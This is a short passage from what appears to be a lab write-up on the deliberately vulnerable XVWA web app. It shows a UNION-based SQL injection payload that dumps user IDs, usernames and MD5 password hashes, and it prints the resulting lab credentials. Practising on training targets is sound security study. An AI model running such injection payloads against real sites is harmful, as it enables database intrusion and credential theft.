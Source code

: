 ![image-20211015142407343](images/image-20211015142407343.png)

**Show the records**



```
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' UNION SELECT 1,2,3,4,5,6,7;

1' UNION SELECT 1,2,3,4,group_concat(uid,0x3a,username,0x3a,password),6,7 from users#
```

1:admin:21232f297a57a5a743894a0e4a801fc3,2:xvwa:570992ec4b5ad7a313f5dc8fd0825395,3:user:25890deab1075e916c06b9e1efc2e25f

![image-20211015143615240](images/image-20211015143615240.png)
